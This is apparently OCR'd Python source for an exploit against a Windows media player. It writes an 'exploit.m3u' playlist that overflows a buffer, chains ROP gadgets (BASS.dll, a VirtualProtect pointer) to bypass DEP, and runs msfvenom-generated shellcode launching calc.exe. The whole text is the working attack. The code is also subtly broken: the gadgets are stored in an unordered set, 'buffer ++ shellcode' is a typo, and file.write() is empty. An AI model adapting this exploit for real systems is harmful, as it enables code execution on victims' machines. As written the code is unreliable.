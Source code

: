 ```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,

        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx

        0x10015f82, # pop eax # retn
        0xffffffc0, # value to negate
        0x10014db4, # neg eax
        0x10038a6d, # xchg eax, edx
        0x106053e5, # pop ecx, retn
        0x101082cc,

        0x1001621c, # pop edi # retn
        0x10010158, # retn

        0x10604154, # pop esi # retn
        0x10101c02, # jmp [eax]

        0x10015fe7, # pop eax # retn (BASS.dll)
        0x10109270, # ptr to &VirtualProtect() [IAT BASSWNA.dll]

        0x1001d7a5, # pushad, ret
        0x10022aa7, # jmp esp address
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()

shellcode = "\x90"*32
# msfvenom -p Windows/exec cmd=calc.exe -b "\x00\x0a\x0d\x1a" -f c
buf = ("\xba\x06\xfd\x75\xdb\xdb\xd8\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x31\x31\x50\x13\x83\xc0\x04\x03\x50\x09\x1f\x80\x27\xfd\x5d"
"\x6b\xd8\xfd\x01\xe5\x3d\xcc\x01\x91\x36\x7e\xb2\xd1\x1b\x72"
"\x39\xb7\x8f\x01\x4f\x10\xbf\xa2\xfa\x46\x8e\x33\x56\xba\x91"
"\xb7\xa5\xef\x71\x86\x65\xe2\x70\xcf\x98\x0f\x20\x98\xd7\xa2"
"\xd5\xad\xa2\x7e\x5d\xfd\x23\x07\x82\xb5\x42\x26\x15\xce\x1c"
"\xe8\x97\x03\x15\xa1\x8f\x40\x10\x7b\x3b\xb2\xee\x7a\xed\x8b"
"\x0f\xd0\xd0\x24\xe2\x28\x14\x82\x1d\x5f\x6c\xf1\xa0\x58\xab"
"\x88\x7e\xec\x28\x2a\xf4\x56\x95\xcb\xd9\x01\x5e\xc7\x96\x46"
"\x38\xcb\x29\x8a\x32\xf7\xa2\x2d\x95\x7e\xf0\x09\x31\xdb\xa2"
"\x30\x60\x81\x05\x4c\x72\x6a\xf9\xe8\xf8\x86\xee\x80\xa2\xcc"
"\xf1\x17\xd9\xa2\xf2\x27\xe2\x92\x9a\x16\x69\x7d\xdc\xa6\xb8"
"\x3a\x12\xed\xe1\x6a\xbb\xa8\x73\x2f\xa6\x4a\xae\x73\xdf\xc8"
"\x5b\x0b\x24\xd0\x29\x0e\x60\x56\xc1\x62\xf9\x33\xe5\xd1\xfa"
"\x11\x86\xb4\x68\xf9\x67\x53\x09\x98\x77")
shellcode += buf

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```
